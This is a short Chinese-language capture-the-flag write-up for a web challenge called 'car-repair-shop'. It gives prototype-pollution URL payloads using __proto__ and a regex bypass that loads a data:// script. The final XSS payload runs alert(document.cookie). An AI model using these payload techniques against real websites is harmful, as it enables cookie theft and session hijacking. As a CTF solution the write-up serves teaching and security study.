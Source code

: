 ```
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?&amp;repair=%7B"key":"%F0%9F%94%91","__proto__":%7B"__proto__":["lol"]%7D%7D#PorscheBugatti
```

[![](https://p5.ssl.qhimg.com/dm/1024_121_/t01e54e79378e89cfd1.png)](https://p5.ssl.qhimg.com/dm/1024_121_/t01e54e79378e89cfd1.png)

接着就是以help为参数的引入script标签的src，不过要先bypass一段正则:

```
urlRegx = /^w%7B4,5%7D://car-repair-shop.fluxfingersforfuture.fluxfingers.net/[wd]+/.+.js$/;
```

这里是不可能污染原型的，因为会被重新赋值。可控点为car-repair-shop前后的字段。

参考官方wp解法，由于w%7B4,5%7D使得协议可控，用data://作为资源加载恶意的xss，同时data不关心mime的类型，使得我们可以把白名单的host放到mime的位置。其实对于src这个属性来说，应该是都支持data资源的调用。最终payload如下:

```
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/hpdoger/,alert(document.cookie)//car.key.js&amp;repair=%7B"key":"🔑","__proto__":%7B"__proto__":["lol"]%7D%7D#BugattiPorsche
```

[![](https://p5.ssl.qhimg.com/t019fd50377d6fa6b63.png)](https://p5.ssl.qhimg.com/t019fd50377d6fa6b63.png)

javascript调用链及类型转换真的可以去深究一下，师傅们博学多识,orz..
